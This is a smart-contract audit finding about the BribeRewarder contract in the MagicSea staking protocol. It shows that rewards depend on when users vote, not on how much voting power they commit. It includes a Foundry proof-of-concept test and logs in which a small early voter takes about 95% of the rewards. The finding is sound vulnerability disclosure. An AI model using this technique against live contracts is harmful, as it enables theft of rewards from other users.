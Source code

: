 Furry Viridian Copperhead

Medium

# Bribe rewards are not always distributed relative to the  voting power allocated by users

## Summary
The ``BribeRewarder.sol`` contract can be used to incentivize users to vote for a specific pool. Once a ``BribeRewarder.sol`` instance has been associated with a pool there is a specified amount of rewards which will be distributed to users for each voting period. However the logic in the ``BribeRewarder.sol`` contract takes into account the time at which a user voted for a certain pool during a voting period. Once a user has voted for a voting period he can't reallocate his voting power to another pool during the same voting period. The weight which is assigned to each pool at the end of a voting period is proportional to the amount of votes the specific pool received compared to all other pools, it doesn't matter when users voted for that pool. But as previously mentioned reward calculations in the ``BribeRewarder.sol`` contract take into account the time at which users voted, so if a user votes in the beginning with a small amount of votes there is a high chance he will receive more rewards than a user who votes with a much bigger voting power but near  the end of the voting period. Users who vote early with small voting power are effectively stealing rewards from users who supply bigger voting power to a pool, at a later time. Well known and battle tested bribing implementations protocol distribute rewards based on the user supplied votes exactly due to the above described scenario. For example the [Votium](https://docs.votium.app/explainers/voter-manual) app states the following *The share of the incentive you receive will be relative to the % of the voting power you allocated to the pool*.

## Vulnerability Detail
[Gist](https://gist.github.com/AtanasDimulski/bc8b548900acaabaf8ccfd373a783679)

After following the steps in the above mentioned [gist](https://gist.github.com/AtanasDimulski/bc8b548900acaabaf8ccfd373a783679) add the following test to the ``AuditorTests.t.sol`` file
```solidity
    function test_RewardsNotDistributedRelativeToVotingPower() public {
        uint256 lockDuration = 365 days;
        mintMlumPosition(alice, 10_000e18, lockDuration);
        mintMlumPosition(bob, 1e18, lockDuration);

        vm.startPrank(tom);
        BribeRewarder rewarder;
        rewarder = BribeRewarder(payable(address(rewarderFactory.createBribeRewarder(bribeRewardToken, pool))));
        bribeRewardToken.mint(tom, 10_000e6);
        bribeRewardToken.approve(address(rewarder), type(uint256).max);
        rewarder.fundAndBribe(1, 1, 10_00e6);
        vm.stopPrank();

        vm.startPrank(owner);
        ///@notice set period durtation to 1000 seconds
        voter.updatePeriodDuration(1000);
        voter.startNewVotingPeriod();
        console2.log("Current block timestamp: ", block.timestamp);
        (uint256 periodStartTime, uint256 periodEndTime) = voter.getPeriodStartEndtime(1);
        console2.log("Period 1 start time: ", periodStartTime);
        console2.log("Period 1 end time: ", periodEndTime);
        vm.stopPrank();

        vm.startPrank(bob);
        console2.log("Block timestamp before alice deposit: ", block.timestamp);
        address[] memory pools = new address[](1);
        uint256[] memory deltaAmounts = new uint256[](1);
        pools[0] = pool;
        ///@notice bob deposits only 1e18 of his voting power, at the beggining of the voting period
        deltaAmounts[0] = 1e18;
        voter.vote(2, pools, deltaAmounts);
        vm.stopPrank();
        
        skip(950);
        vm.startPrank(alice);
        console2.log("Block timestamp before alice deposit: ", block.timestamp);
        IMlumStaking.StakingPosition memory mlumPositionAlice;
        mlumPositionAlice = mlumStaking.getStakingPosition(1);
        uint256[] memory deltaAmountsAlice = new uint256[](1);
        ///@notice alice deposits all of her voting power, which is way bigger than bob's but near the end of the voting period
        deltaAmountsAlice[0] = mlumPositionAlice.amountWithMultiplier;
        voter.vote(1, pools, deltaAmountsAlice);
        console2.log("Total voting power for a pool: ", voter.getVotesPerPeriod(1,pool));
        console2.log("Total voting power for a pool normalized: ", voter.getVotesPerPeriod(1,pool) / 1e18);
        console2.log("Voting power for a pool coming from bob: ", voter.getUserVotes(2, pool));
        console2.log("Voting power for a pool coming from bob normalized: ", voter.getUserVotes(2, pool) / 1e18);
        console2.log("Voting power for a pool coming from alice: ", voter.getUserVotes(1, pool));
        console2.log("Voting power for a pool coming from alice normalized: ", voter.getUserVotes(1, pool) / 1e18);
        vm.stopPrank();

        ///@notice the voting period ends
        skip(100);

        vm.startPrank(bob);
        rewarder.claim(2);
        vm.stopPrank();

        vm.startPrank(alice);
        rewarder.claim(1);
        console2.log("Bob balance of briber reward token after he claims his rewards: ", bribeRewardToken.balanceOf(bob));
        console2.log("Alice balance of briber reward token after she claims her rewards: ", bribeRewardToken.balanceOf(alice));
        vm.stopPrank();
    }
```

```solidity
Logs:
  Current block timestamp:  1
  Period 1 start time:  1
  Period 1 end time:  1001
  Block timestamp before alice deposit:  1
  Total rewards from BribeRewarder.sol:  0
  Block timestamp before alice deposit:  951
  Total rewards from BribeRewarder.sol:  950000000
  Total voting power for a pool:  30001000000000000000000
  Total voting power for a pool normalized:  30001
  Voting power for a pool coming from bob:  1000000000000000000
  Voting power for a pool coming from bob normalized:  1
  Voting power for a pool coming from alice:  30000000000000000000000
  Voting power for a pool coming from alice normalized:  30000
  Total rewards from BribeRewarder.sol:  50000000
  Total rewards from BribeRewarder.sol:  0
  Bob balance of briber reward token after he claims his rewards:  950001666
  Alice balance of briber reward token after she claims her rewards:  49997441
```
As can be seen from the above logs alice supplies **30_000e18** of the voting power, while bob supplies **1e18**, however bob receives much more rewards than alice **≈950e6** and **≈50e6** respectively. Bob receives almost **95%** of all rewards because he just voted earlier, despite the fact that alice supplied **30_000** times more votes for the given pool.
 
To run the test use: ``forge test -vvv --mt test_RewardsNotDistributedRelativeToVotingPower``
## Impact
Rewards in the ``BribeRewarder.sol`` contract are distributed based on voting power and time at which the user voted. However the weight of a pool in only decided based on the actual votes that voted for it. Users who vote for a pool with smaller voting power in the beginning of the voting period can receive much more rewards than users who voted with a lot of voting power but near the end of the voting period as described above. This is effectively stealing rewards, from people who supply much more voting power. 

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/rewarders/BribeRewarder.sol#L260-L298

## Tool used
Manual Review & Foundry

## Recommendation
For each voting period distribute rewards once the period is over and only take into account the proportion of votes each user voted with, not the time at which he voted.